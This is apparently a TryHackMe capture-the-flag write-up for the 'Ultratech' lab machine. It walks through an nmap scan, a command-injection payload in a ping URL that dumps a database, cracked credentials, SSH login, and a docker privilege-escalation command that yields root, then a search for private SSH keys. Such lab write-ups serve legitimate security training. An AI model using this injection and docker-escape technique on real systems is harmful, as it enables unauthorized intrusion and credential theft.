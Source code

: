 
## Ultratech - tryhackme

1. Which software is using the port 8081?
```
┌──(kali㉿kali)-[~]
└─$ nmap -p 8081 -sV 10.10.244.29
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-18 08:22 EDT
Nmap scan report for 10.10.244.29
Host is up (0.29s latency).

PORT     STATE SERVICE VERSION
8081/tcp open  http    Node.js Express framework

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.00 seconds

```

2. Start dirbsearch. Leads to robots.txt > utech_sitemap.txt > partners.html > view source page > js/api.js > give information about its pinging. Gives username and password hash (http://10.10.244.29:8081/ping?ip=`cat%20utech.db.sqlite`) 

3. Crack it. User: r00t and password: n100906

4. ssh login and get user shell. 

5. Now, get linenum.sh from github, make it executable and run it. It shows docker is being hosted. 

6. After that, use gtfobin and use docker command to get root.
```
r00t@ultratech-prod:/tmp$ docker run -v /:/mnt --rm -it bash chroot /mnt sh
id
id
# uid=0(root) gid=0(root) groups=0(root),1(daemon),2(bin),3(sys),4(adm),6(disk),10(uucp),11,20(dialout),26(tape),27(sudo)
# find / -name id_rsa 2> /dev/null
```
